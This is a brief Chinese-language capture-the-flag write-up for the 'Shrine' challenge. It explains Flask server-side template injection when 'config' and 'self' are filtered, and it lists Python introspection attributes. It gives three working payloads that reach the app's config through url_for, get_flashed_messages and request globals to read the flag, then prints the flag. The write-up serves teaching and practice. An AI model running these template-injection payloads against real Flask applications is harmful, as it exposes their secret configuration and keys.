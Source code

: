 # Shrine

> flask ssti注入,比起第19题多了一些过滤函数

## 相关函数

> url_for
> 根据参数构造url

> get_flashed_messages
> 返回之前在Flask中通过 flash() 传入的信息列表

## 思路分析

> \_\_class\_\_  返回类型所属的对象
> \_\_mro\_\_    返回一个包含对象所继承的基类元组,方法在解析时按照元组的顺序解析
> \_\_base\_\_   返回该对象所继承的基类
> \_\_base\_\_和\_\_mro\_\_    都是用来寻找基类的
> \_\_subclasses\_\_   每个新类都保留了子类的引用,这个方法返回一个类中仍然可用的的引用的列表
> \_\_init\_\_  类的初始化方法
> \_\_globals\_\_  对包含函数全局变量的字典的引用

> flask ssti注入,比起第19题多了一些过滤函数,从原代码中可看到过滤了config和self,flag信息是直接保存到了app.config信息中,如果没有过滤,直接{{config}}就能获取到flag,有了过滤后就得换种思路,可以通过全局变量实现沙盒逃逸

## payload

> {{url_for.\_\_globals\_\_['current_app'].config.FLAG}}

> {{get_flashed_messages.\_\_globals\_\_['current_app'].config.FLAG}}

> {{request.application.\_\_self\_\_._get_data_for_json.\_\_globals\_\_['json'].JSONEncoder.default.\_\_globals\_\_['current_app'].config['FLAG']}}

## flag

> flag{shrine_is_good_ssti}

## 参考

> https://zhuanlan.zhihu.com/p/93746437
> https://www.cnblogs.com/xx5xx/p/16087449.html